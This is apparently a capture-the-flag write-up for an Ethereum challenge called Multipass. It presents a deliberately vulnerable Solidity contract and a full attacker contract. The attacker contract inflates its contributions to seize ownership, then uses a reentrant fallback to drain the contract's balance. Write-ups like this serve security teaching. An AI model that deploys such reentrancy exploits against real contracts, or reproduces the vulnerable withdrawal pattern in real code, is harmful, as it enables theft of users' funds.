 # Multipass

## Setup

The challenge is available at http://ethereum.sharkyctf.xyz/level/3

Before starting, it is recommended to follow the suggested steps at http://ethereum.sharkyctf.xyz/help to setup Metamask, get Ether from a Ropsten faucet, and Remix IDE.

## Challenge

The contract to attack is the following:

```solidity
pragma solidity = 0.4.25;

contract Multipass {
    address public owner;
    uint256 public money;
    
    mapping(address => int256) public contributions;
    
    bool public withdrawn;
    
    constructor() public payable {
        contributions[msg.sender] = int256(msg.value * 900000000000000000000);
        owner = msg.sender;
        money = msg.value;
        withdrawn = false;
    }
    
    function gift() public payable {
        require(contributions[msg.sender] == 0 && msg.value == 0.00005 ether);
        contributions[msg.sender] = int256(msg.value) * 10;
        money += msg.value;
    }
  
    function takeSomeMoney() public {
        require(msg.sender == owner && withdrawn == false);
        uint256 someMoney = money/20;
        if(msg.sender.call.value(someMoney)()){
            money -= someMoney;
        }
        withdrawn = true;
    }
    
    function contribute(int256 _factor) public {
        require(contributions[msg.sender] != 0 && _factor < 10);
        contributions[msg.sender] *= _factor;
    }
    
    function claimContract() public {
        require(contributions[msg.sender] > contributions[owner]);
        owner = msg.sender;
    }
}
```

The goal is then to take all the money of the contract.

## Hint

Can you call `takeSomeMoney()` several times ?

## Solution

This is a classic reentrancy exploit, where you are able to recursively call the same function several time in order to siphon all the money of a contract.

In order to exploit it, we must have another contract with a fallback method which will be called by the Victim contract, and because the state is not updated before calling the Attack contract, we will be able to execute several times `takeSomeMoney()` until no fund is left. 

To attack this contract, we will create another contract called Attack, which will be called to attack the first contract.

In the same Solidity file, add the following code:

```solidity
contract Attack {
    Multipass public target;
    
    constructor(address _adress) public payable{
        target = Multipass(_adress);
        target.gift.value(0.00005 ether)();
    }
    
    function multiplyContributions() public {
        address contractAdress = address(this);
        
        while (target.contributions(contractAdress) <= target.contributions(target.owner())) {
            target.contribute(9);
        }
    }
    
    function takeOwnership() public returns(address){
        multiplyContributions();
        target.claimContract();
    }
    
    function attack() public {
        takeOwnership();
        target.takeSomeMoney();
    }
    
    function () payable public {
        while (!target.withdrawn()) {
            target.takeSomeMoney();
        }
    }
} 
```
